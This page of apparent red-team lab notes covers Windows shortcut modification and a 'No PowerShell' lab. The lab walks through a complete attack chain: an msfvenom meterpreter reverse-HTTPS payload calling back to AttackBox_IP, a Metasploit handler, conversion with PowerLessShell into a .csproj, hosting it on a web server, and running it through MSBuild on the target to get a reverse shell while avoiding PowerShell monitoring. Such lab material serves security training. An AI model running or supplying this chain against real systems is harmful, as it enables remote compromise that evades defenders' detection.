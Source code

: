 # Other techniques

## Shortcuts

Shortcuts or symbolic links are a technique used for referring to other files or applications within the OS. Once a 
user clicks on the shortcut file, the reference file or application is executed. Often, the Red team leverages this 
technique to gain initial access, privilege escalation, or persistence. The MITRE ATT&CK framework calls this 
"Shortcut modification" technique ([T1547](https://attack.mitre.org/techniques/T1547/009/)).

To use the shortcut modification technique, we can set the target section to execute files using:

* Rundll32
* Powershell
* Regsvr32
* Executable on disk

## No PowerShell Lab

In 2019, Red Canary published a threat detection report stating that PowerShell is the most used technique for 
malicious activities. Therefore, Organisations started to monitor or block `powershell.exe` from being executed. As a 
result, adversaries find other ways to run PowerShell code without spawning it.

PowerLessShell is a Python-based tool that generates malicious code to run on a target machine without showing an 
instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a 
platform for building Windows applications, to execute remote code.

```text
$ git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
```

Generate a PowerShell payload:

```text
$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4444  -f psh-reflection > liv0ff.ps1
```

Run the Metasploit framework to listen and wait for the reverse shell:

```text
$ msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4444 ;exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => AttackBox_IP lport => 4444 
[*] Started HTTPS reverse handler on https://AttackBox_IP:4444 
```

Change to the PowerLessShell directory project to convert the payload to be compatible with the MSBuild tool. Then run 
the PowerLessShell tool and set the source file to the one created with msfvenom:

```text
$ python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

Transfer the output file to the target machine with `scp` or setting a web server to host the file on the attacking
machine and downloading the file using a browser.

```text
$ python3 -m http.server 1337
```

On the target machine, build the `.csproj` file and wait for the reverse shell:

```text
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```



## Resources

* [theonlykernel/atomic-red-team](https://github.com/theonlykernel/atomic-red-team/blob/master/atomics/T1023/T1023.md)

